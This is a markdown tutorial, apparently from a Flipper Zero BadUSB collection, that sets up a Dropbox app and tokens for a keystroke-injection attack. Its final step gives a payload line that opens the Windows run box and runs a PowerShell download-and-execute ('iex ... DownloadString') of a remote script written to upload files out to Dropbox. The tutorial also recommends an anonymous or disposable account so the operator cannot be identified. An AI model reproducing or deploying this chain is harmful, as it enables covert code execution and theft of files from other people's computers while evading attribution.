 # Dropbox Configuration for BadUSB 

This tutorial will explain how to create a BadUSB payload that will run a remote script stored on the Web, which is capable of uploading files to a remote location. Both the _download_ of the script and the _file upload_ parts will use Dropbox. 

**NOTE**: be aware that if your payloads/scripts are compromised, it might be possible to identify the original Dropbox account. So we recommend using an anonymous or disposable Dropbox account to operate everything.

## Create a Dropbox Application

First we will create a personal Dropbox application that will have permissions onlly to _upload_ files to a _specific folder_.

The stricter permission settings is recommended, because it will limit the access in case of the keys/tokens/secrets are, somehow, compromised/leaked. For instance, if the key had access to _read_ and to _any_ folder of the account, one could download all the files in the Dropbox account that you will be using.

To create an application like that, do the following:
 1. Go to the [Dropbox New App Creation](https://www.dropbox.com/developers/apps/create/) page. Fill the information as following:
   1. API: Scoped access
   2. Access Type: App folder (
   3. Name: <any> (it should be exclusive)
 2. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 3. Go to the "Permissions" tab of your app.
 4. Mark these two permissions:
   - `files.metadata.write`
   - `files.content.write`
 5. Click on the "Submit" button to update the app's permissions.

## Setup the Key of the Dropbox Application

 1. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 2. Go to the "Settings" tab of your app.
 3. Copy and write down your "App key" (`<APP_KEY>`) and "App secret" (`APP_SECRET`).
 4. Open a web browser and log into your Dropbox account (if it is not already).
 5. Create an URL with your "App key" and open it in your browser:
```
https://www.dropbox.com/oauth2/authorize?client_id=<APP_KEY>&token_access_type=offline&response_type=code
```
 6. Click on `Continue` to indicate that you are aware that you are connecting to a development application.
 7. Click on `Allow` to allow that the application have the mentioned permissions.
 8. Copy and write down the "Authorization code" (`<AUTHORIZATION_CODE>`) shown in the box.
 9. Make a HTTP request to retrieve a refresh token: 
```
curl https://api.dropbox.com/oauth2/token \
    -d code=<AUTHORIZATION_CODE> \
    -d grant_type=authorization_code \     
    -u <APP_KEY>:<APP_SECRET>
```
 10. Copy and write down write down the "Refresh token" (`<REFRESH_TOKEN>`) from the `"refresh_token"` key of the JSON response.

## Prepare the PowerShell script

The `.ps1` file is the PowerShell script that you want to run. It will create a local file, then upload it to Dropbox. To configure it do the following:

 1. Edit your `.ps1` file to specify the secrets you have copied and written from the previous step:
```
$MyAppKey       = "<APP_KEY>"
$MyAppSecret    = "<APP_SECRET>"
$MyRefreshToken = "<REFRESH_TOKEN>"
```
 2. Upload the `.ps1` file to Dropbox (it can be stored in any folder, not necessarily inside the app's folder).
 3. Locate the file on the Dropbox web interface, right click on it, and click on the "Copy link" option.
 4. Copy and write down the URL, replacing the `?dl=0` in the end to `?dl=1` if necessary. Let's call it `<SCRIPT_DOWNLOAD_URL>`. For example:
```
https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1
```

## Prepare the BadUSB payload

The `.txt` file is the BadUSB payload that will actually send the keystrokes. It will call the Windows run box and execute the remote PowerShell script. You have to specify the download URL of the PowerShell script inside the payload. Do the following:

 1. Edit your `.txt` file to put the download URL (`<SCRIPT_DOWNLOAD_URL>`):
```
ALTSTRING cmd /c powershell iex ((New-Object System.Net.WebClient).DownloadString('https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1'))
```
 2. Put the `.txt` file inside the `badusb` folder of the Flipper's SD Card.

## Reference
 - https://www.dropbox.com/developers/documentation/http/documentation
 - https://developers.dropbox.com/oauth-guide


